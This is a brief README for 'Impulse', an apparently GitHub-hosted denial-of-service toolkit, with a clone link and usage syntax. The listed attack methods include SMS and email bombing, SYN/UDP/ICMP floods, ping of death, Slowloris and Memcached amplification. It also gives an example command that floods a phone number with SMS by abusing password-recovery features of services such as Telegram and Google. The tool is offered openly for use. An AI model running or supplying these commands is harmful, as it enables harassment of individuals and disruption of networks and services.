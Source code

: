 # Impulse  
Denial Of Service (DOS) ToolKit  
  
### Download
https://github.com/LimerBoy/Impulse via git clone https://github.com/LimerBoy/Impulse

### Usage
> impulse [--method SMS/EMAIL/NTP/SYN/UDP/POD/ICMP/HTTP/Slowloris/Memcached] [--target phone/email/ip/ip:port/url] [--time seconds] [--threads number]  
  
> impulse [--help]
  
### Examples
##### Send multiple sms from password recovery supporting services like telegram, google, ...
```bash
impulse --method SMS --time 20 --threads 16 --target +7999999999
```


